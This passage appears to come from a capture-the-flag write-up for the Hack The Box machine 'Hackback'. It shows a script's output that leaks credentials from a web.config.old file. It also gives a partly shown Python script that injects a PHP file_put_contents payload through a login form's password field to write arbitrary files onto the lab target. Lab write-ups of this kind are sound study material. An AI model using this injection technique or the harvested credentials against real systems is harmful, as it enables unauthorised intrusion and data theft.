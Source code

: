 Nothing interesting in this one but the `web.config.old` contains some credentials:

```
# ./hackback_read.py /inetpub/wwwroot/new_phish/admin web.config.old
200
200
[04 March 2019, 12:54:18 AM] 10.10.14.23 - Username: test@test.com, Password: <?xml version="1.0" encoding="UTF-8"?>
<configuration>
    <system.webServer>
        <authentication mode="Windows">
        <identity impersonate="true"                 
            userName="simple" 
            password="ZonoProprioZomaro:-("/>
     </authentication>
        <directoryBrowse enabled="false" showFlags="None" />
    </system.webServer>
</configuration>
```

Username: `simple`
Password: `ZonoProprioZomaro:-(`

I can't use these credentials at the moment since there's no other service exposed but they'll be useful later on.

### Tunneling our way in

I can also write files to the target system using the same PHP code execution trick. I wrote another variant of my previous script that uses the `file_put_contents` function to write files to the disk.

```python
#!/usr/bin/python

import base64
import requests
import sys

# Clean up the log file

r = requests.get("http://admin.hackback.htb/2bb6916122f1da34dcd916421e531578/WebAdmin.php?action=init&site=hackthebox&password=12345678&session=fb6f90c58d1e2f1a7b86546f3300d6d199ac4c0b5309ada3203b2042b3443a56");
print r.status_code

# Base64 encoded the file we want to write

with open(sys.argv[2]) as f:
	payload = base64.b64encode(f.read())

# print payload

data = {
	"_token": "23I6TdlO18ZPtXYQPeHZyAY4Y8Z9wq1ntgvP8YdA",
	"username": "test@test.com",
	"password": "<?php echo(file_put_contents(\"%s\",base64_decode(\"%s\")));echo ' *****'; ?>" % (sys.argv[1],payload),
	"submit": ""
}
r = requests.post("http://www.hackthebox.htb", data=data)
print r.status_code

# Call the PHP code to write the file

```